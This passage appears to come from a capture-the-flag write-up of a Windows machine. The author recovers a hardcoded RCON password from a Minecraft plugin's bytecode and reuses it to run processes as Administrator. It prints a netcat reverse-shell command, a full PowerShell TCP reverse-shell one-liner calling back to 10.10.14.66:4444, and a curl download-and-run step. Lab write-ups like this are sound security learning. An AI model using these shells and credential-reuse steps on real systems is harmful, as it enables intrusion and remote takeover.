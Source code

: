 And viewed the contents of the .class file with:
```sh
$ javap -c Playercounter.class
```

The file contained a string which seemed like a password (11: ldc // String s67...): 
```sh
  public void onEnable();
    Code:
       0: aconst_null
       1: astore_1
       2: new           #7                  // class net/kronos/rkon/core/Rcon
       5: dup
       6: ldc           #9                  // String 127.0.0.1
       8: sipush        27015
      11: ldc           #11                 // String s67[REDACTED]
      13: invokevirtual #13                 // Method java/lang/String.getBytes:()[B
      16: invokespecial #19                 // Method net/kronos/rkon/core/Rcon."<init>":(Ljava/lang/String;I[B)V

```

### Root access
With a password (presumably), I figured I could try use to gain access to the user "Administrator". Since Windows doesn't have `$ su` equivalent, I searched for other ways to change user. I found out a [PoC on GitHub](https://gist.github.com/int0x33/eb358632a13bcd1e017a14c0fb00a52b) on how to start processes as defined user:
```sh
# Local machine
$ nc -nvlp 4444

# Target machine
> Powershell # To spawn a powershell instance
> $securePassword = ConvertTo-SecureString "s67..." -AsPlainText -Force  
> $credential = New-Object System.Management.Automation.PSCredential "Administrator", $securePassword  
> Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","10.10.14.66","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public
```

Unfortunately the machine did not have `nc.exe` available so I had to figure out something else. After a while, I realized I could try to create my own powershell script and use curl to download it on the target machine. I got the following script from revshells.com:
```powershell
$LHOST = "10.10.14.66"; $LPORT = 4444; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```
which I saved into a file, and moved it to the target machine:  
```sh
# Local machine
$ python3 -m http.server 7788
# Target machine
> cd C:\users\svc_minecraft\Desktop
> cmd # Back to cmd, curl doesn't work in powershell
> curl -O http://10.10.14.66:7788/shell.ps1
> Powershell # Back to powershell
> Start-Process powershell.exe -Credential $credential -ArgumentList ("-file shell.ps1")
```
That successfully granted me a root shell:  